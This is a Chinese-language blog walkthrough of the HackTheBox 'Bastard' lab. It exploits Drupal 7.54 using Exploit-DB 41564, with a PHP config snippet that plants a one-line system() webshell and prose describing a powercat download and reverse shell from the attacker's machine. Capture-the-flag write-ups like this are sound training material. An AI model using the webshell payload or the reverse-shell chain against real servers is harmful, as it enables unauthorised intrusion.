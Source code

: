 ```yaml
---
layout: post
title:  "HackTheBox >_ Bastard_9"
description: walkthrough
category: HackTheBox
---
```

# Bastard_9

![image-20200928141513017]({{ site.url }}/assets/Bastard_9.assets/image-20200928141513017.png)

![image-20200928142103288]({{ site.url }}/assets/Bastard_9.assets/image-20200928142103288.png)

drupal

changelog.txt看版本号

![image-20200928142127979]({{ site.url }}/assets/Bastard_9.assets/image-20200928142127979.png)

7.54

https://www.exploit-db.com/exploits/41564/ 

![image-20200928142207404]({{ site.url }}/assets/Bastard_9.assets/image-20200928142207404.png)

修改脚本

这个脚本错误较多，最后附完整修改脚本

```php+HTML
$url = 'http://10.10.10.9'; # 改url
$endpoint_path = '/rest'; # 这个目录有时会变化。默认是/rest_endpoint，注意dirb http://10.10.10.9一般可以扫出正确的目录。也可以使用其他目录扫描工具
$endpoint = 'rest_endpoint';

$file = [
    'filename' => 'evil.php',# change this 起个名
    'data' => '<?php echo(system($_GET["cmd"])); ?>'# change this 改成更方便的cmd shell
];
```

![image-20200928142247861]({{ site.url }}/assets/Bastard_9.assets/image-20200928142247861.png)

执行正确后会在本地生成两个json文件 注意，还有一种进攻方式是修改cookie进入web管理员后台，详见htb的其他walkthourgh

![image-20200928142353393]({{ site.url }}/assets/Bastard_9.assets/image-20200928142353393.png)

![image-20200928142612943]({{ site.url }}/assets/Bastard_9.assets/image-20200928142612943.png)

在本地生成两个json文件的同时会在服务器写入我们的shell文件，有webshell了既然是windows当然直接powercat。

浏览器cmd shell 执行我们的命令，使靶机从我们的kali端建立的http服务下载powercat，并命令powercat联系我们的监听端口，从而获得shell
